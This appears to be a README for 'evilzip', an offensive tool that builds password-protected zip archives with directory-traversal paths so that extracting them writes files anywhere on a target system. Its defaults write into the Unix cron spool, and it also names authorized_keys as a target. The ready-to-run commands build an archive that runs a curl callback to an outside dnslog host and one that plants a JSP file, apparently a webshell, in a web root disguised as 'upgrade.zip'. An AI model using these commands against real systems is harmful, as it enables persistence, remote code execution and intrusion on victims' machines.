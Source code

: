 # evilzip

## logs

* 20210723 去除可执行权限(crontab和authorized_keys均仅需可读可写即可 无需执行权限)。

* 20210701 修改权限问题,让解压后的文件默认就有读写执行的权限。

## About
evilzip lets you create a zip file(with password) that contains files with directory traversal characters in their embedded path.  Most commercial zip program (winzip, etc) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.  However, many software development libraries do not include these same protection mechanisms (ex. Java, PHP, etc).  If a program and/or library does not prevent directory traversal characters then evilzip can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

## 关于项目

原使用的创建恶意压缩包的工具[evilarc](https://github.com/ptoomey3/evilarc)不支持带密码的压缩包,且没法修改,因为其使用的zipfile模块不支持加密码压缩，所以就有了这个项目。在evilarc的基础上新增了一些自己常用的功能，比如仅需一个参数就生成可以穿越到unix系统计划任务的压缩包。

具体参数如下:

```
╭─ fucker ~/Coding/Java/Intellij/evilzip/
╰─ java -jar evilzip.jar -h
Usage: java -jar EvilZip.jar [options]
  Options:
    -f, --file
      File to input archive.
      Default: root
    -p, --path
      Path to include in filename after traversal
      Default: var/spool/cron/
    -pwd, --password
      ZIP file encrypt password.
    -o, --output
      File to output archive.
      Default: evil.zip
    -d, --depth
      Number directories to traverse.
      Default: 8
    -t, --type
      OS platform for archive (win|unix).
      Default: unix
    -c, --cmd
      Command to execute.
    -h, --help
      Show this message
```

## 一些tips

快速生成在unix系统执行命令的压缩包(目录穿越到计划任务):

```
java -jar evilzip.jar -c "curl xxx.dnslog.com"
```

读取本地的gaga.jsp 让其穿越10层目录最终解压到/wwwroot/xxxx/gaga.jsp 解压密码为update-password 输出的压缩包名为upgrade.zip

```
java -jar evilzip.jar -f gaga.jsp -d 10 -p wwwroot/xxxx/ -o upgrade.zip -t unix -pwd "update-password"
```

大部分参数均带有默认值，不用指定也行。
